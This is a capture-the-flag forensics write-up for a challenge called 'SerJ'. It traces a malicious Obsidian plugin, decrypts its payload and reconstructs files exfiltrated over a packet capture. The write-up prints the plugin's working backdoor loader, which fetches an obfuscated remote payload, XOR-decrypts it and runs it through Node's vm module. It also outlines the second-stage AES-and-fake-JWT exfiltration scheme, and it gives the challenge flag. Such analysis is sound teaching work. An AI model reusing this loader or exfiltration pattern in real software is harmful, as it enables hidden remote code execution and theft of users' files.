





# CTF Write-Up — SerJ

| Field      | Value                  |
|------------|------------------------|
| **event**     | FLags 2k26          |
| **Challenge** | SerJ                |
| **Author**    | L4z3x               |
| **Category**  | Forensics           |
| **Difficulty**| Medium-hard             |
| **Flag**      | `itc{oushou_n_takhsayt_??!_YESSSS_js_malware_is_another_world}` |

---

## Overview

This is a forensics challenge simulates a real-world problems / malware scenario. Players are given a snapshot of a compromised user's home directory **users-dir.zip** and a locked archive **chall.7z** 

>> Identify a malicious plugin hidden inside the user's home dir .
>> Revers a multi-stage obfuscation chain to recover and decrypt JavaScript payload.
>> recover the exfiltrated file from a network capture.
>> Extract the final flag embedded in the recovered file from the network connection.

---

## Step 1 — Extract the User's Directory (users-dir.zip)

The first step is to unzip `users-dir.zip` to examine the victim's file system.

```bash
unzip users-dir.zip
```



This produces a full Windows-style user profile tree rooted at `Users/serj/`.

### Directory Tree :

```
Users/serj/
├── Desktop/
│   ├── Apollo-11-master/   ← clean public GitHub repo
│   └── mal-cli/            ← clean public GitHub repo
├── Documents/
│   └── Investigation Vault/
│       ├── Memes/           ← decoy files
│       └── .obsidian/       ← ⚠ hidden configuration folder
│           └── plugins/
│               └── read-it-later-sync/
│                   ├── main.js       ← MALICIOUS
│                   ├── manifest.json
│                   └── styles.css
├── Pictures/
│   └── scream_cipher.png
└── ...
```

### Analysis

- **Desktop**: Contains two open-source repositories (`Apollo-11-master`, `mal-cli`). (No malicious content).
- **Documents/Memes**: Three markdown files with CTF-themed jokes. (No hidden data).
- **Documents/.obsidian**: A hidden **Obsidian** configuration folder. The `plugins/read-it-later-sync/` directory is the only third-party plugin — and the primary target.


---

## Step 2 — Analysing `main.js` — (The Malicious Plugin)

The plugin presents itself as a legitimate "read-it-later" inbox synchroniser, which is an excellent cover for a **backdoor**: it makes periodic outbound network connections as part of its normal operation.

### 2.1 — Normal Functionality

```
Inbox Server > GET articles > Fetch webpage > Extract data > Create .txt note > Delete item
```

Default configuration:

```
Sync interval : 5 minutes
Max items     : 25
Folder        : Inbox/Read Later
```

This is entirely plausible behaviour for such a plugin, making detection harder.

### 2.2 — The Hidden `syncHelper()` Backdoor

Buried inside `main.js` is a function named `syncHelper()` that is doing somethings that shouldn't be done.

#### Stage 1 — URL Obfuscation via Base64 Concatenation

```js
const rif = "iLmNvbS9naXN0cy8wMmZlYTM2";
const stg = "aHR0cHM6Ly9hcGkuZ2l0aH" + rif;
const url = atob(stg + "NjdiOTZiZWYzZGIzZTU1MjdlZmI4YjVhMg");
```

The real URL isn't written in plaintext. Instead, three Base64 fragments are concatenated and decoded with `atob()`:

```
"aHR0cHM6Ly9hcGkuZ2l0aH" + "iLmNvbS9naXN0cy8wMmZlYTM2" + "NjdiOTZiZWYzZGIzZTU1MjdlZmI4YjVhMg"
      ᐯ  atob()
https://api.github.com/gists/02fea3667b96bef3db3e5527efb8b5a2
```


#### Stage 2 — Remote Payload Download

```js
const response = await requestUrl({
    url: `${url}?t=${Date.now()}`,
    method: 'GET',
    headers: {
        Accept: 'application/vnd.github+json',
        'Cache-Control': 'no-cache'
    }
});
```

#### Stage 3 — Extracting the Hidden Payload

```js
const jsonn = response.json;
const file  = jsonn.files['.txt'];
const payload = JSON.parse(file.content);
```

The GitHub Gist returns a JSON response. Inside it,JSON encoded data payload contained on `data` field.

#### Stage 4 — Base64 Decoding (Obfuscated)

Even the string `"base64"` is obfuscated:

```js
const b   = 'esab'.split('').reverse().join('');  // > "base"
const ser = b + '64';                              // > "base64"

const eByt = Buffer.from(payload.data, ser);
```

#### Stage 5 — XOR Key Derivation from Source Code

The XOR key is derived from the function's **own source code**:

```js
const source = syncHelper.toString();
const lines  = source.split('\n');

// For each line:  key_byte = (sum_of_charCodes * line_length) & 0xFF
```

This is a smart self-referential technique: the key is regenerated at runtime from the function body, so it changes if anyone tries to patch the code.

```js
const eByt = Buffer.from(payload.data, ser);
const raw = Buffer.alloc(eByt.length);
for (let i = 0; i < eByt.length; i++) {
      raw[i] = eByt[i] ^ id[i % id.length];
}
```
the **syncHelper()** function source code that used to generate the XOR key  :
```js
        async function syncHelper() {
            const syncer = require(String.fromCharCode(118, 109));
            const id = derive();

            try {
                const url = atob(stg + "NjdiOTZiZWYzZGIzZTU1MjdlZmI4YjVhMg");

                const response = await requestUrl({
                    url: `${url}?t=${Date.now()}`,
                    method: 'GET',
                    headers: {
                        Accept: 'application/vnd.github+json',
                        'Cache-Control': 'no-cache'
                    }
                });

                const jsonn = response.json;
                const file = jsonn.files['.txt'];

                if (!file || typeof file.content !== 'string') {
                    throw new Error('no file');
                }

                const payload = JSON.parse(file.content);
              
                if (!payload || typeof payload.data !== 'string') {
                    throw new Error('Fetched payload.json has no string data field.');
                }
                const b = 'esab'.split('').reverse().join('');
                const ser = b + '64';
                
                const eByt = Buffer.from(payload.data, ser);
                const raw = Buffer.alloc(eByt.length);

                for (let i = 0; i < eByt.length; i++) {
                    raw[i] = eByt[i] ^ id[i % id.length];
                }

                const scr = raw.toString('utf8');
                const timers = require('node:timers');

                const context = {
                    console,
                    fetch,
                    localStorage,
                    requestUrl,
                    Buffer,
                    process,
                    __dirname,
                    __filename,
                    require,
                    setTimeout:timers.setTimeout,
                    setInterval:timers.setInterval,
                    clearTimeout:timers.clearTimeout,
                    clearInterval:timers.clearInterval
                };

                syncer.createContext(context);
                syncer.runInContext(scr, context, {
                    filename: 'inbox-sync.js'
                });
            } catch (err) {
                console.warn('Sync helper notice:', err);
            }
        }
```

#### Stage 6 — Dynamic Code Execution via `vm`

After decryption, the recovered JavaScript is executed inside a sandboxed :

```js
const syncer = require(String.fromCharCode(118, 109));
// 118 = 'v', 109 = 'm'  →  require('vm')

syncer.createContext(context);
syncer.runInContext(scr, context, { filename: 'inbox-sync.js' });
```

The `vm` module name itself is encoded as character codes

The execution context exposes: `fetch`, `requestUrl`, `Buffer`, `process`, `require`, and timer functions — giving the remote payload full system access.

#### Summary of the Backdoor Chain

```
Concatenate 3 × Base64 fragments
        ᐯ  atob()
Remote GitHub Gist URL
       ᐯ  HTTP GET (with cache-busting timestamp)
JSON response  →  files[".txt"]  →  content
       ᐯ  JSON.parse
payload.data  →  Base64 decode
       ᐯ
Encrypted bytes  →  XOR (key derived from syncHelper source)
       ᐯ
JavaScript source code
       ᐯ
vm.runInContext()  →  arbitrary code execution
```

---

## Step 3 — Visiting the GitHub Gist




as you can see the the JSON encoded data contained as value of content JSON-key  
---

## Step 4 — Recovering the XOR Key & Decrypting the Payload

### 4.1 — Generating the XOR Key

The key derivation algorithm depends on the exact source text of `syncHelper()`. We recreate it in `extracter.js` and run it to produce the key bytes:

```bash
node extracter.js
```



The output is: `57 8 128 0 26 41 0 88 186 10 190 182 …`

### 4.2 — Decrypting the Payload in CyberChef

Using CyberChef with the **From Base64** and **XOR** operations (key: `153 217 101` in DECIMAL mode, Standard scheme), we decrypt the payload and find the second-stage JavaScript:



---

## Step 5 — Analysing the Exfiltration Script

The decrypted code is a full Node.js file-exfiltration tool. Its key properties:

### Configuration

```js
const AES_KEY_TEXT = "itc{oushou_n_takhsayt_??!_YESSSS";  // < FLAG PART 1
const C2_HOST      = '127.0.0.1';
const C2_PORT      = 5000;
const COLLECT_PATH = '/inbox';
```

> **Note:** The AES key is the first half of the flag.

### Exfiltration Pipeline

```
~/Documents/important/   (target directory)
         ᐯ  readFileSync()
    File bytes
         ᐯ  AES-256-CBC (random IV, key = AES_KEY_TEXT)
    IV ‖ ciphertext
         ᐯ  .toString('hex')
    HEX string
         ᐯ  JSON.stringify  >  zlib DEFLATE  >  HEX
    Compressed hex
         ᐯ  split into 600-character chunks
         ᐯ  each chunk > part1.part2.part3  (fake-JWT format)
         ᐯ  HTTP GET  >  Authorization: Bearer <chunk>
    http://127.0.0.1:5000/inbox
```
> **Note:** you can read the secript on **solver/secript.js**

### exfiltration data in User-Agent

```js
'User-Agent': `Mozilla/5.0 (Windows NT ${fileNumber}.${chunkIndex + 1}; Win64; x64) ...`
```

The file number and chunk index are hidden inside a realistic-looking User-Agent header, allowing the receiver to reconstruct the correct ordering of chunks.

---

## Step 6 — Unlocking `chall.7z`

The AES key discovered in the script (`itc{oushou_n_takhsayt_??!_YESSSS`) is also the password for the locked `chall.7z` archive.(contain pcap file of the malware connection)

---

## Step 7 — Reconstructing the Exfiltrated File

The helper script `solver.py` automates the full reconstruction:

1. **Parse the PCAP** with Scapy, filtering TCP packets destined for port 5000.
2. **Extract Authorization headers** and strip the `Bearer ` prefix.
3. **Split** each token on `.` and concatenate all parts in order.
4. **Hex-decode → zlib inflate → JSON parse** to recover the payload object.
5. **AES-256-CBC decrypt** using the same key and embedded IV.
6. **Write** the output file with the appropriate extension.

```bash
python3 solver.py capture.pcapng --output recovered_files/
```

The recovered file is a JPEG image: `recovered_document.jpg`.

---

## Step 8 — Extracting the Final Flag from the Image

Running `strings` on the recovered JPEG reveals embedded text:

```bash
strings recovered_document.jpg | head
```



```
JFIF
js_malware_is_another_world}
...
```

---

## Flag gathering  

| Source | Value |
|--------|-------|
| AES key (from decrypted JS) | `itc{oushou_n_takhsayt_??!_YESSSS` |
| Embedded string (from JPEG) | `_js_malware_is_another_world}` |
| **Final Flag** | `itc{oushou_n_takhsayt_??!_YESSSS_js_malware_is_another_world}` |

---

## Tools & Scripts Used

| Tool | Purpose |
|------|---------|
| `unzip` | Extract `users-dir.zip` |
| `node extracter.js` | Derive the XOR key from `syncHelper` source |
| [CyberChef](https://gchq.github.io/CyberChef/) | Base64 decode + XOR decrypt the Gist payload |
| `python3 solver.py` | Parse PCAP, reassemble chunks, AES-decrypt exfiltrated file |
| `strings` | Extract flag string from recovered JPEG |
| `7z` / `7-Zip` | Extract password-protected `chall.7z` |

---

*Write-up by **0xkey** . Challenge authored by **L4z3x**.*
